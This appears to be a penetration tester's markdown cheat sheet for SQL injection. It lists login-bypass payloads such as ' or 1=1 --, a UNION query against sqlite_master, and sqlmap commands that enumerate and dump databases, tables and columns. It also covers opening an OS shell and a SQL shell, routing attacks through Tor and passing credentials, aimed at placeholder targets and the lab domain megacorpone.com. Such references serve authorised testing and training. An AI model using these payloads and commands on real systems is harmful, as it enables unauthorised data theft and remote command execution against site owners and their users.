 Testing for Bypasses: 

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

### SQLite3

UNION SELECT NULL as CAMPO1, tbl_name, NULL as CAMPO2 FROM sqlite_master

# SQLMAP

## Enumerate databases
sqlmap --dbms=mysql -u "$URL" --dbs

## Enumerate tables
- sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables

## Dump table data
- sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump
## Dump Columns
- sqlmap --dbms=mysql -u https://megacorpone.com -D "DATABASE" -T "TABLE" -C "COLUMN" --dump
## List Columns
- sqlmap --dbms=mysql -u https://megacorpone.com -D "DATABASE" -T "TABLE" --columns
## Specify parameter to exploit
- sqlmap --dbms=mysql -u "http://www.megacorpone.com/param1=value1&param2=value2" --dbs -p param2

##  Specify parameter to exploit in 'nice' URIs
- sqlmap --dbms=mysql -u "http://www.megacorpone.com/param1/value1*/param2/value2" --dbs # exploits param1

## Get OS shell
- sqlmap --dbms=mysql -u "$URL" --os-shell

## Get SQL shell
- sqlmap --dbms=mysql -u "$URL" --sql-shell

## SQL query
- sqlmap --dbms=mysql -u https://megacorpone.com -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"

## Use Tor Socks5 proxy
- sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u https://megacorpone.com --dbs
## Using SQLMAP with basic authentication or NTLM
- sqlmap -u "http://megacorpone.com/" -s-data=param1=value1&param2=value2 -p param1 --auth-type=[basic/ntlm] --auth-cred=username:password
# SQLI

Testing for a row: 

- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8
# Resources: 
- http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html
- https://cheatography.com/dormidera/cheat-sheets/oracle-sql-injection/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet